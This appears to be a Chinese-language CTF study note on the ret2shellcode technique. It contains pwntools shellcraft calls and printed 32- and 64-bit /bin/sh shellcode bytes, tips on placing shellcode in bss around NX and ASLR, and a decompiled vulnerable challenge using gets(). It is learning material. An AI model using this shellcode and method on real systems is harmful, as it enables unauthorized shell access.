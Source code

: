   



### ret2shellcode

> shellcraft 默认是 32 位

```python
pwntools 中的 shellcraft 模块内置了若干shellcode
shellcraft.sh()  # 生成一个获取一个shell即sh的shellcode
print(shellcraft.sh())  # 打印汇编语言
>>>print(asm(shellcraft.sh()))  # 打印shellcode字节流
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

* 如果要64位的shellcode

  > 需要先声明环境 context.arch="amd64"

  ```python
  >>> context
  ContextType(cache_dir = '/home/ganliber/.cache/.pwntools-cache-3.8')
  >>> context.arch="amd64"
  >>> print(asm(shellcraft.amd64.sh()))
  b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
  ```

> * 篡改栈帧上的返回地址为攻击者手动传入的 shellcode 所在缓冲区地址
> * 初期往往将 shellcode 直接写入栈缓冲区
> * 目前由于 the NX bits 保护措施的开启，栈缓冲区不可执行，故当下的常用手段变为向 `bss` 缓冲区写入 shellcode 或向堆缓冲区写入 shellcode 并使用 mprotect 赋予其可执行权限
>   * `bss`可执行
>   * `ALSR`一般远程服务器都会打开，因此不能把`shellcode`放在`stack`上
>     * 当`PIE`没有打开的时候，ASLR不会影响bss的位置，因此此时可以把shellcode放到bss中
>   * `PIE`打开的时候，bss的位置是随机的，因此 PIE 未打开时，ASLR可以
> * `w`和`x`权限应该避免同时出现

#### Q2

* 查看C代码

  ```C
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s[100]; // [esp+1Ch] [ebp-64h] BYREF
  
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 1, 0);
    puts("No system for you this time !!!");
  +--------------------------------------+
  | gets(s);                             |
  | strncpy(buf2, s, 0x64u);             |
  +--------------------------------------+--> 利用区间
    printf("bye bye ~");
    return 0;
  }
  ```
